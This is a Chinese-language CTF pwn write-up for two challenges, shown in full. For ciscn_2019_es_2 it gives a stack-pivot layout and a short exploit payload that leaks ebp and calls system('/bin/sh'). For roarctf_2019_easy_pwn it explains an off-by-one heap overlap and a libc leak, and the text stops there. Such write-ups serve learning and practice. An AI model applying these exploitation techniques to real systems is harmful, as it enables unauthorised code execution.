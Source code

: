 ### ciscn_2019_es_2

只能溢出 8 字节，空间太小，因此考虑栈迁移。如下布置栈：

```
ret addr
ebp-0x2c
padding
/sh\x00
/bin
ebp-0x1c
padding
system
padding
ebp-0x24
padding
padding
```

得到：

```python
sa('name?\n','a'*0x28)
ru('a'*0x28)
ebp = uu32(r(4))
leak('ebp', ebp)
payload = flat('a'*8,ebp-0x24,'a'*4,elf.plt['system'],'a'*4,ebp-0x1c,'/bin/sh\x00','a'*4,ebp-0x2c)
s(payload)
```

### roarctf_2019_easy_pwn

本题在 `write` 时存在 off_by_one 漏洞：

```c
__int64 __fastcall sub_E26(signed int a1, unsigned int a2)
{
  __int64 result; // rax

  if (a1> (signed int)a2 )
    return a2;
  if (a2 - a1 == 10)
    LODWORD(result) = a1 + 1;
  else
    LODWORD(result) = a1;
  return (unsigned int)result;
}
```

如果编辑时输入的 `size` 比创建时的 `size` 大 10，就可以多输入一个字节。这多出来的一个字节可以覆盖到下一个 chunk 的 `chunk_size` 字段，从而修改其大小，造成堆块重叠。

首先连续创建 5 个 `chunk`，其中第 0 个的大小必须以 `8` 结尾，否则只能溢出到 `prev_size` 而不是 `chunk_size`。编辑 0 中数据，触发 off_by_one 条件溢出修改 1 的大小。随后 `free(1)` 使其对应大小的 chunk 进入 unsorted bin，此时 2 的 fd 即指向 `main_arena+88`，从而可以泄露 libc。
